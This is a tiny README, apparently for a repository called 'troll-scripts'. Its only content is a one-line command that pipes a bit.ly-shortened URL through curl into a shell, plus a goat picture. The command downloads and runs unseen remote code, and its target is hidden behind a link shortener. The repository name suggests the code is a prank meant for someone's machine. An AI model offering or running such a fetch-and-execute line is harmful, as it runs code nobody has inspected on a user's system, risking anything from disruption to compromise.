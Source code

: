# troll-scripts

`sh -c "$(curl -fsSL https://bit.ly/letroll42)"`

![goat](https://images.unsplash.com/photo-1524024973431-2ad916746881?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=1350&q=80 "goat")
